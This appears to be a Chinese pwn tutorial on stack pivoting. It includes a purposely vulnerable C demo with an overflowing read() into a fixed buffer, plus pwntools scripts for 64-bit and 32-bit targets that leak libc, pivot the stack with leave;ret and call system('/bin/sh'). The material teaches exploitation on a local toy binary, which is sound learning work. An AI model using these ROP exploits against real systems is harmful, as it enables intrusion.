

## 栈迁移

栈迁移主要就是为了解决栈溢出空间大小不足的问题

通过栈迁移可以把fake_ebp-4(32位的情况，如果是64位就是fake_rbp-8)通过着这种方法是的运行两次leave可以把esp的数据修改为fake_ebp，从而完成栈迁移这样就是在溢出不住的情况下来完整构造rop链

## 栈迁移到数据填充段

实际步骤

```tex
leave -> mov esp,ebp;pop ebp;

ret;

第一次leave;ret;会把栈上的ebp->ebp寄存器

第二次leave;ret;相当于寄存器的值->esp寄存器

并且esp+=4
```

使用这个方法的主要一点是要获取到buf的实际栈地址

因此我们要使用这个方法就要泄露出当时buf的空间来使得我们可以进行迁移

因此我们这里使用一个程序进行构造

```python
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vuln() {
    char buf[0x100];
    printf("buf addr: %p\n", buf);
    puts("please input:");
    read(0, buf, 0x300);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    vuln();

    return 0;
}

```

这个程序就是使用了一个格式化字符串来返回一个buf地址使得我们可以使用同时在这里满足了这个填充段数据的迁移因此我们可以使用栈迁移的方式来使用

脚本

```python
from pwn import *
context.log_level='debug'
io = process("./test")
libc = ELF("./libc-2.31.so")
elf = ELF("./test")

io.recvuntil('buf addr: ')
buf_addr = int(io.recvline(False),16)
log.info("buf_add: "+hex(buf_addr))

payload = b''
payload += p64(0x0401293)#rdi
payload += p64(elf.got['puts']) # puts@got
payload += p64(0x401070) # puts@plt
payload += p64(elf.sym['vuln'])
payload = payload.ljust(0x100, b'\x00')
payload += p64(buf_addr - 8)
payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())

gdb.attach(io)
io.sendlineafter("please input:",payload)

# pause()
# gdb.attach(io)
io.recv()
libc_address = u64(io.recv(6).ljust(8,b'\x00'))-libc.symbols['puts']
log.info("libc_base: " + hex(libc_address))

# payload = b''
# payload += p64(elf.search(asm('pop rdi; ret;'), executable=True).next())
# payload += p64(libc.search("/bin/sh").__next__()) # puts@got
# payload += p64(libc.sym['system']) # puts@plt
# payload = payload.ljust(0x100, 'x00')
# payload += p64(buf_addr - 8)
# payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())
# io.sendafter("please input:n", payload)

io.interactive()
```

同样32位也是用同样的方法

exp

```python
from pwn import *


context.log_level='debug'
io = process("./test")
elf = ELF("./test")
libc = ELF("./libc-2.31.so")

io.recvuntil('buf addr: ')
buf_addr = int(io.recvline(False),16)
log.info("buf_add: "+hex(buf_addr))

payload = b''
payload += p32(elf.plt['puts'])
payload += p32(elf.sym['vuln'])
payload += p32(elf.got['puts'])


payload = payload.ljust(0x108,b'\x00')
payload += p32(buf_addr-4)
payload += p32(elf.search(asm('leave; ret;'),executable=True).__next__())
# gdb.attach(io,'c')ni

# pause()

io.sendlineafter("please input:",payload)
# gdb.attach(io)

io.recv()

libc.address= u32(io.recv(4))-libc.symbols['puts']
# gdb.attach(io)
log.info('libc_addr'+hex(libc.address))
system = libc.sym['system']

payload = b''
payload += p32(libc.sym['system'])
payload += b'aaaa'
payload += p32(libc.search(b"/bin/sh").__next__())

payload = payload.ljust(0x108, b'\x00')
payload += p32(buf_addr - 4)
payload += p32(elf.search(asm('leave; ret;'), executable=True).__next__())

io.sendlineafter("please input:",payload)
io.interactive()
```

## 其他地址段的栈迁移

这里主要是使用read函数把rop填充到其他地址上



调用read将函数写到rop空闲的地址中，然后将栈迁移到该地址执行该rop

这里返回到read函数时会有push ebp 保存ebp值，read函数中的leave；ret不会对栈迁移有影响，因此还要再加要给leave；ret

使用的主要方法就是构造一个read函数来进行栈迁移

exp

```python
from pwn import *
io = process('./test')
elf = ELF('./test')
libc = ELF('./libc-2.31.so')
context.log_level='debug'

payload = b'a'*(0x108)
payload += p64(0x0401253)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['vuln'])

io.sendafter('please input:\n',payload)
# gdb.attach(io)
# io.recv()
libc.address = u64(io.recv(6).ljust(8,b'\x00'))-libc.sym['puts']
log.info("puts_addr: "+hex(libc.address))

payload = b'a'*(0x108)
payload += p64(0x0401253)
payload += p64(libc.sym['environ'])        #可以泄漏栈地址
payload += p64(libc.sym['puts'])
payload += p64(elf.sym['vuln'])
io.sendafter('please input:\n',payload)
stack = u64(io.recvuntil(b'\x7f').ljust(8,b'\x00'))
log.info("stack: "+hex(stack))
# gdb.attach(io)
# pause()
payload =b'a'*0x100
payload += p64(stack-0x500-8)
payload += p64(0x022aa2+libc.address)
payload += p64(0)
payload += p64(0x02337e+libc.address)
payload += p64(stack - 0x500)
payload += p64(0x001b9a+libc.address)
payload += p64(0x100)
payload += p64(libc.sym['read'])
payload += p64(libc.search(asm('leave; ret;'), executable=True).__next__())
io.sendafter('please input:\n',payload)

sleep(1)
payload=b''
payload += p64(0x0401253)            #rdi
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym['system'])

io.sendline(payload)

io.interactive()
```

## 栈迁移都相对地址

leave；ret；->好处是迁移到特定地址

add esp，xxx;pop reg ;pop reg;ret;->add esp,xxx;ret;

